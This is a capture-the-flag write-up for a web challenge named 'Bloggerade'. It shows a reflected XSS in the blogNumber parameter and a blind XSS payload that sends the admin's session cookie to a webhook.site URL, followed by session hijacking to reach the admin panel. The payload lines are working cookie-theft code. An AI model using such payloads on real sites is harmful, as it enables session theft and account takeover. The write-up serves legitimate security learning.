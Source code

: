 Challenge: Bloggerade
Points: 200
Category: Web

![Alt text](screenshots/bloggerade1.png)

![Alt text](screenshots/bloggerade2.png)

This application allows us to enter an input, which is then reviewed by the admin. These kind of situations generally have chances of Blind XSS which can be used to steal Session Cookies.

First, let's check the possibility of XSS. We can see that the existing blogs have a Blog Number, which is being reflected on the page. So let's try to reflect out Session ID there using "%3Cscript%3Edocument.write(document.cookie);%3C/script%3E" as input to the blogNumber parameter.

![Alt text](screenshots/bloggerade3.png)

Now, it's time for Blind XSS. We will setup a a platform to catch our requests/responses at https://webhook.site.
Payload: 2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E
Parameter: blogNumber

We get our cookies.

![Alt text](screenshots/bloggerade4.png)

Now, let's use the whole URL as a payload.
Payload: http://18.225.156.202:9090/blog?blogNumber=2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E
Parameter: url
Preparation: Change the input type of url from url to text so that we can enter our payload.

![Alt text](screenshots/bloggerade5.png)

Result: 
![Alt text](screenshots/bloggerade6.png)

We got the session id: admincokie123thiswillallowyoutogototheadminpanel. Now we will use this in place of our session  id to get access to the admin's session and then we click "Admin Panel".

![Alt text](screenshots/bloggerade7.png)

![Alt text](screenshots/bloggerade8.png)

FLAG: Amazon{XSS_b0t_G0t_Pwn3d}